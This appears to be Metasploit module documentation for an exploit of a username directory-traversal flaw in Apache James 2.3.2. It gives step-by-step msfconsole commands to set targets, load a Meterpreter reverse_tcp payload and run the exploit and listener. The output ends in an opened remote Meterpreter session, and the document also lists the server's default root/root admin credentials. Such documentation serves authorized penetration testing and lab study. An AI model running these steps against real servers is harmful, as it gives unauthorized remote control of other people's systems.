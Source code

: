 ## Vulnerable Application  
  This module exploits a vulnerability that exists due to a lack of input validation when creating a user in Apache James 2.3.2. By creating a user with a directory traversal payload as the username, commands can be written to a given directory/file. Instructions for installing the vulnerable application for testing can be found here:  
  https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf  
  
## Verification Steps  
  1. Load the module:  
```
  msf5 > use exploit/linux/smtp/apache_james_exec  
```

  2. Set remote and local options:  
```
  msf5 exploit(linux/smtp/apache_james_exec) > set target 1  
  target => 1  
  msf5 exploit(linux/smtp/apache_james_exec) > set rhosts 192.168.224.164  
  rhosts => 192.168.224.164  
  msf5 exploit(linux/smtp/apache_james_exec) > set rport 25  
  rport => 25  

  msf5 exploit(linux/smtp/apache_james_exec) > set lhost 192.168.224.167  
  lhost => 192.168.224.167  
  msf5 exploit(linux/smtp/apache_james_exec) > set lport 4444  
  lport => 4444  
```

  3. Set payload:  
```
  msf5 exploit(linux/smtp/apache_james_exec) > set payload linux/x64/meterpreter/reverse_tcp  
  payload => linux/x64/meterpreter/reverse_tcp  
```

  4. Check version and run exploit:  
```
  msf5 exploit(linux/smtp/apache_james_exec) > check  
  [*] 192.168.224.164:25 - The target appears to be vulnerable.  
  msf5 exploit(linux/smtp/apache_james_exec) > exploit  

  [*] 192.168.224.164:25 - Command Stager progress - 100.00% done (812/812 bytes)  
```

  5. Set up and run listener (Can be done before running exploit):  
```
  msf5 exploit(linux/smtp/apache_james_exec) > use exploit/multi/handler  
  msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp  
  payload => linux/x64/meterpreter/reverse_tcp  
  msf5 exploit(multi/handler) > set lport 4444  
  lport => 4444  
  msf5 exploit(multi/handler) > set lhost 192.168.224.167  
  lhost => 192.168.224.167    

  msf5 exploit(multi/handler) > run  

  [*] Started reverse TCP handler on 192.168.224.167:4444  
  [*] Sending stage (3021284 bytes) to 192.168.224.164  
  [*] Meterpreter session 1 opened (192.168.224.167:4444 -> 192.168.224.164:34752) at 2020-01-18 18:25:14 -0800  

  meterpreter >  
```

## Options  
  **USERNAME:**  The administrator username for Apache James 2.3.2 remote administration tool. By default this is 'root'.  
  **PASSWORD:**  The administrator password for Apache James 2.3.2 remote administration tool. By default this is 'root'.  
  **ADMINPORT:**  The port for Apache James 2.3.2 remote administration tool. By default this is '4555'.  
  **RHOSTS:**  The IP address of the vulnerable server.  
  **RPORT:**  The port number of the SMTP service.  

## Targets
```
  Id  Name 
  --  ----
  0   Linux x86  
  1   Linux x64  
```

## References  
  1. <https://www.exploit-db.com/exploits/35513>  
  2. <https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf>
